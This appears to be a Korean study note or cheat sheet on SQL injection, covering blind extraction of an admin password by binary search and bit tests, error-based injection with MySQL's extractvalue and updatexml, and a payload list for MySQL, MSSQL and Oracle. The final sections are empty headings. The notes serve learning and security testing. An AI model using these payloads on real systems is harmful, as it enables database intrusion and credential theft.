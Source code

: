 # ExploitTech

## Binary Search <br/>
이진 탐색은 이미 정렬된 리스트에서 임의의 값을 효율적으로 찾기 위한 알고리즘. 임의의 값을 찾기 위해 검색 범위를 좁혀나감. <br/>
1. 범위 지정 <br/>
0부터 100까지 사이의 범위 내에 한 숫자만이 정답일 때 범위의 중간 값 지정(50) <br/>
2. 범위 조절 <br/>
정답이 50보다 큰값인지 확인. 그렇다면 51~100으로, 아니라면 0~49로 조정. 이 과정을 반복하면서 범위를 좁혀가며 정답을 찾음. <br/>

> example
> username : admin / password : P@ssword
> 비밀번호에 포함될 수 있는 아스키에서 출력 가능한 문자의 범위는 32~126임
> 중간값인 79보다 큰값인지 확인
> 이러한 과정을 반복 또는 쿼리로 사용
> 
> select * from users where username='admin' and ascii(substr(password, 1,1)) > 79;

<br/>
<br/>

## Bit 연산<br/>
ASCII는 0부터 127 범위의 문자를 표현할 수 있으며, 이는 곧 7개의 비트를 통해 하나의 문자를 나타낼 수 있다는 것을 의미. <br/>
하나의 비트는 0과 1로 이뤄져 있으므로 7개의 비트에 대해 1인지 비교하면 총 7번의 쿼리로 임의 데이터 한 바이트를 알아낼 수 있음. <br/>
MySQL의 경우 숫자를 비트 형태로 변환하는 bin이라는 함수 제공. <br/>

> example
> username : admin / password : P@ssword
> 첫번째 글자인 P의 경우 비트로 바꾸면 1010000임
> 따라서 substr을 통해서 1이 있는지 없는지를 확인하면 됨
> select * from users where username = 'admin' and substr(bin(ord(password)), 1, 1) = 1

<br />
<br />

## Error based SQL Injection <br/>
임의로 에러를 발생시켜 데이터베이스 및 운영 체제의 정보를 획득하는 공격 기법. 프레임워크 마다 다르지만 debug 모드를 킨 경우 오류에 대한 상세한 내용이 나올 수 있음. <br/>
중요정보를 노출시키기 위해 DBMS에서 쿼리가 실행되기 전에 발생하는 에러가 아닌 런타임(Runtime) 즉, 쿼리가 실행되고나서 발생하는 에러가 필요함. <br/>
아래의 구문은 MySQL 환경에서 해당 기법으로 공격할 때 많이 사용하는 구문임.
```MySQL
    select extractvalue(1, concat(0x3a, version()));
    ERROR 1105 (HY000) : XPATH syntax error: ':5.7.29-0ubuntu0.16.04.1-log'
```
위 처럼 에러메시지에 운영 체제에 대한 정보가 포함되어 있음. 해당 쿼리를 이해하려면 extractvalue 함수를 알아야함. <br/>

### extractvalue <br/>
첫번째 인자로 전달된 XML 데이터에서 두 번째 인자인 XPATH 식을 통해 데이터를 추출. 만약 두 번째 인자가 올바르지 않은 XPATH 식일 경우 올바르지 않은 XPATH 식이라는 에러와 함께 잘못된 식을 출력함.<br/>
이를 응용해서 데이터베이스의 정보를 추출할 수도 있음.
```MySQL
    select extractvalue(1, concat(0x3a, (select password from users where username='admin')));
    ERROR 1105 (HY000) : XPATH syntax error : ':Th1s_1s_admin_PASSW@rd'
```

### 각 DBMS별 Error based SQLI <br/>
- MySQL
    - SELECT updatexml(null,concat(0x0a,version()),null);
    - SELECT extractvalue(1,concat(0x3a,version()));
    - SELECT COUNT(*), CONCAT((SELECT version()),0x3a,FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x;
- MSSQL
    - SELECT convert(int,@@version);
    - SELECT cast((SELECT @@version) as int);
- ORACLE
    - SELECT CTXSYS.DRITHSX.SN(user,(select banner from v$version where rownum=1)) FROM dual;

## Error based Blind SQL Injection <br/>
앞서 알아본 Blind SQL과 Error based SQLI를 동시에 활용하는 공격 기법.

## Short-circuit evaluation <br/>

## Time based SQL Injection <br/>